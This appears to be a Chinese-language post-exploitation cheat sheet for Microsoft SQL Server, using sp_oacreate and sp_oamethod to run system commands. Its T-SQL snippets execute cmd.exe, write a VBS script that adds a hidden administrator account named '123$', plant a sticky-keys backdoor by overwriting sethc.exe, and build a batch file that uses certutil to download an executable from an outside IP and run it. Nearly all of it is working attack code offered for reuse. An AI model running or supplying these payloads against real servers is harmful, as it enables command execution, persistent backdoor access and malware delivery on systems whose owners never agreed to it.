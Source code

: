 1. 调用cmd 来执行命令 

```
wscript.shell执行命令

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'



Shell.Application执行命令
declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';

```

2. 写入启动项

```
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

```

3. 粘贴键替换

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';

```

大家可以灵活运用，这里也可以这样玩，把他写成vbs或者其他的来下载文件 ，为什么不直接调用cmd来下载，再2008系统上我是不成功的，但是sp_oacreate可以启动这个文件，所以换个思路

```
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:\www\1.bat', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'@echo off';
exec @ret = sp_oamethod @f, 'writeline', NULL,'start cmd /k "cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe"';


declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\1.bat'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\file.exe'

```
